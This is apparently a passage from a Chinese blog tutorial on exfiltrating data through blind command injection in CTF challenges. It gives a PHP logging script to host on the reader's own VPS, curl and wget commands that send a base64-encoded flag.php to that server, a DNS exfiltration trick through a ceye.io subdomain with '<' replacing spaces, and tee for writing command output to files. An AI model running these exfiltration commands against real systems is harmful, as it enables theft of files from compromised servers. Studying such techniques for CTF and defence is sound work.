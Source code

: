 然后访问1.txt等对应生成的文件，例：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201018142221818.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201018142209630.png#pic_center)

2、在vps上建立记录脚本

在自己的公网服务器站点根目录写入php文件，内容如下：
record.php

```bash
<?php
$data =$_GET['data'];
$f = fopen("flag.txt", "w");
fwrite($f,$data);
fclose($f);
?>
123456
```

在目标服务器的测试点可以发送下面其中任意一条请求进行测试

```bash
curl http://*.*.*.**/record.php?data=`cat flag.php|base64`
wget http://*.*.*.*/record.php?data=`cat flag.php|base64`
12
```

3，通过http请求/dns请求等方式带出数据

利用：

```bash
curl `命令`.域名
1
```

例：

```bash
#用<替换读取文件中的空格，且对输出结果base64编码
curl `cat<flag.php|base64`

#拼接域名(最终构造结果)
curl `cat<flag.php|base64`.v4utm7.ceye.io
#另一种方法(不过有的环境下不可以)`cat flag.php|sed s/[[:space:]]//g`.v4utm7.ceye.io
123456
```

更多方法参考：https://blog.csdn.net/qq_43625917/article/details/107873787

4，linux tee命令

Linux tee命令用于读取标准输入的数据，并将其内容输出成文件。

```bash
用法:
tee file1 file2 //复制文件
ls /|tee 1.txt //命令输出
123
```

